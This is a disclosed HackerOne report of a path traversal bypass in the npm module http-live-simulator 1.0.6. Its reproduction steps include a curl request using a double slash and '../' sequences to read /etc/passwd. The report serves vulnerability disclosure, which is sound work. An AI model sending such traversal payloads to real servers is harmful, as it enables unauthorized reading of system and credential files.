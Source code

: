 # [http-live-simulator] Path traversal vulnerability

## Report Details
- **Report ID**: 411405
- **URL**: https://hackerone.com/reports/411405
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-19T11:06:04.477Z
- **Disclosed**: 2018-12-28T10:07:41.274Z

## Reporter
- **Username**: 3la2kb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
## Module

**module name:** http-live-simulator
**version:** 1.0.6
**npm page:** https://www.npmjs.com/package/http-live-simulator
## Description
this vulnerability is a bypass for the one found in this [report](https://hackerone.com/reports/384939) in version `1.0.5`

## Steps To Reproduce:

1-  Install the module : `npm install -g http-live-simulator`
2-  Run the server : `http-live`
3-  Attempt to access a file from outside that project's directory, such as `curl --path-as-is http://localhost:8080//../../../../etc/passwd`

## The bypass

adding an extra `/` after the URL like :

`http://localhost:8080//../../../../etc/passwd`

mention the double slashes after the port number

## Impact

path traversal vulnerability leading to read access in arbitrary files on disk

## Attachments
No attachments
